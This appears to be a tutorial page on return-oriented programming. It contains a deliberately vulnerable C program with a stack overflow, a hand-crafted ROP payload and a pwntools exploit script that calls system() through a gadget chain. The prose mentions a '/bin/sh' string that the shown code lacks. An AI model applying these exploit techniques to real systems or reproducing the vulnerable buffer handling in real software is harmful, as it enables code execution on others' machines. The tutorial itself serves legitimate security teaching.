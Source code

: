 # Return-oriented programming (ROP)

Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises _gadgets_ in order to build chains and execute arbitrary instruction sequences.

Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the `ret` instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.

## Gadgets

ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a `ret` instruction. To manually find them within a binary, one might use a tool called `ROPgadget` with the following basic syntax:

`ROPgadget --binary [binary name]`

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_ropgadget.png>)

## Exploitation

```cpp
#include <stdio.h>
#include <stdlib.h>

void func()
{
	system("echo 'An inconspicuous echo...'");
}

void vuln()
{
	char input[20];
	fgets(input, 0x60, stdin);
}

int main()
{
	char* HarmlessString = "echo pwn";
	vuln();
	func();
	return 0;

}
```

We immediately notice a potential buffer overflow. Since `system` is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string `"/bin/sh"` has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute `system("/bin/sh")`. Well, let's start digging.

Running ROPgadgets on the above binary reveals a way to write to `rdi`! `0x000000000000126b : pop rdi ; ret`

Consequently, we can just write the address of the `"/bin/sh"` string in the binary, place it on the stack and, when the time comes, `rdi` will be populated with this address. All we will then need to do is return to the PLT entry of `system`, so that the function is invoked with the correct argument!

The addresses we need turn out to be:

`0x555555555040` - PLT entry of `system` `0x55555555526b` - `pop rdi; ret` gadget `0x555555556028` - `"/bin/sh"` `0x5555555551ff` - the address we want to continue execution from once the ROP chain is finished

Knowing that we need exactly 40 character to overflow the return address of `vuln`, we get the following payload.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00`

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_manual.png>)

Input file:

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_manual\_input.png>)

And... exploit!

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_manual\_exp.png>)

## Exploiting with pwntools

`pwntools` comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.

You will first need to load the ELF executable and specify its base address:

```python
elf = ELF('./rop')
elf.address = 0x555555554000
```

Subsequently, initialise a ROP object:

```python
rop = ROP(elf)
```

## Pwntools ROP commands

Get a dictionary of available gadgets:

```python
rop.gadgets
```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_pwn\_gadgets.png>)

Insert raw bytes into the chain:

```python
rop.raw(bytes)
```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_pwn\_raw.png>)

Call functions:

```python
rop.call(symbol, [arguments])
```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_pwn\_call.png>)

Get chain as bytes:

```python
rop.chain()
```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_pwn\_chain\_bytes.png>)

### The Exploit

Using the above cheatsheet, we arrive at the following python script for exploitation:

```python
#!/usr/bin/python3

from pwn import *

context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000

rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])

prog = process('./rop')

payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)

prog.sendline(payload)
prog.interactive()

```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/ROP\_pwn\_success.png>)
